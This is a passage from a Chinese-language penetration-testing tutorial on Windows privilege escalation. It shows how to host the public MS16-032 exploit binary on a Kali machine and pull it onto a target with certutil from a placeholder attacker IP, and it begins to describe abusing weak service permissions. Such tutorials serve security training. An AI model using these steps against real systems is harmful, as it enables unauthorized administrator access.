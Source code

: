图 8.13 – MS16_032 GitHub 仓库

然而，建议您自己分析并编译利用代码。该漏洞的源代码可以在这里找到：[`github.com/khr0x40sh/ms16-032`](https://github.com/khr0x40sh/ms16-032)。

下载或编译二进制文件后，我们需要将其传输到目标系统。这可以通过以下过程来实现：

1.  要在我们的 Kali 虚拟机上设置一个 Web 服务器，我们可以使用**SimpleHTTPServer** Python 模块来提供二进制文件。可以通过在存储**ms16-032.exe**二进制文件的目录中运行以下命令来实现：

    **sudo python -m SimpleHTTPServer 80**

1.  或者，您也可以通过运行以下命令使用 Python 3 的**http.server**模块：

    **sudo python3 -m http.server 80**

1.  现在我们可以使用**certutil**工具将二进制文件从 Kali 虚拟机下载到目标系统。可以通过在目标系统上运行以下命令来实现：

    **certutil -urlcache -f http://<KALI-VM-IP>/ms16-032.exe ms16-032.exe**

1.  现在我们可以执行**ms16-032.exe**二进制文件。可以通过运行以下命令来实现：

    **.\ms-16-032.exe**

    如果二进制文件成功运行，您应该会收到类似于以下截图中突出显示的输出：

![图 8.14 – MS16-032 手动利用](img/B17389_08_014.jpg)

图 8.14 – MS16-032 手动利用

我们已经成功地通过手动和自动方式利用次级登录服务提升了权限。

现在，我们来看看如何识别和利用弱服务权限来提升我们的权限。

# 利用弱服务权限

此利用涉及利用配置不当的服务权限来提升我们的权限。此过程的目标是识别以**SYSTEM**或管理员权限运行的服务，并利用该服务的错误权限配置，通过**BINARY_PATH_NAME**参数执行任意命令。

我们可以利用这个漏洞将标准用户添加到本地管理员组，从而在系统上提升权限。

利用过程可以按照以下步骤进行：

1.  该过程的第一步是识别标准用户可以访问的服务和应用程序。可以通过使用**accesschk**工具来简化此过程，该工具位于**Sysinternals**套件中。**accesschk**可执行文件可以从这里下载：[`docs.microsoft.com/en-us/sysinternals/downloads/accesschk`](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)。
